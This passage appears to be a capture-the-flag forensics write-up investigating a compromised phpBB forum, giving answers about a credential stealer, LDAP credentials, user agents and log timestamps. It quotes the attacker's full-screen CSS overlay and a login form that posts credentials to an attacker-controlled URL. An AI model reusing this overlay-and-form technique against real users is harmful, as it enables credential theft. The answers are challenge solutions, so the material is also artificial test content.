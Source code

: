CSS styling used to "override" the browser content:

```css
.modal {
    position: fixed;
    top: 0;
    left: 0;
    height: 100%;
    width: 100%;
    z-index: 101;
    background-color: white;
    opacity: 1;
}
```

When someone enters credentials and tries to sing-in, username and password were redirected to the php script attacker controls:

`<form action="http://10.10.0.78/update.php" method="post" ...`

4. What is the full URI that the credential stealer sends its data to?
    

**Answer**: `http://10.10.0.78/update.php`

5. When did the contractor log into the forum as the administrator? (UTC)
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869268098/552f53e0-8ca9-4f45-be52-e8eea2981c6e.png align="center")
    
6. In the forum there are plaintext credentials for the LDAP connection, what is the password?
    

There is a [plugin added to the phpBB](https://github.com/rokx/phpbb_ext_db_or_ldap) that enabled LDAP connections, so let't try grepping config for the hope that LDAP connection details are stored there.

```plaintext
$ sqlite3 phpbb.sqlite3 ".dump phpbb_config" | grep -i ldap
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869289556/c2063587-ea8f-4b69-b4b4-67ed49272254.png align="center")

7. What is the user agent of the Administrator user?
    

User agents are listed in the `access.log`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869303419/2bf08a30-0ca1-4406-8f01-ff681f685981.png align="center")

8. What time did the contractor add themselves to the Administrator group? (UTC)
    

Returning to the `phpbb_logs` table.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869318978/a1ff8ed4-084e-4a87-ba41-37405299e3fa.png align="center")

```plaintext
date -u -d @1682506431 "+%d/%m/%Y %H:%M:%S"
```
